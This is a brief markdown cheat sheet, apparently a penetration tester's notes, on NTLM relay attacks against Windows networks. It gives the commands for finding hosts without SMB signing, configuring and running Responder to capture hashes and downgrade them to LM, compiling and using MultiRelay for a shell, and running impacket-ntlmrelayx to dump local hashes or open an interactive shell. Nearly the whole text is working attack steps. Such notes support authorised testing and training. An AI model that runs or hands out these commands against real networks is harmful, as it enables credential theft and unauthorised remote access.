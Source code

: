 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target>` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

## Upgrade to Meterpreter shell:
* see Metasploit.md from this section
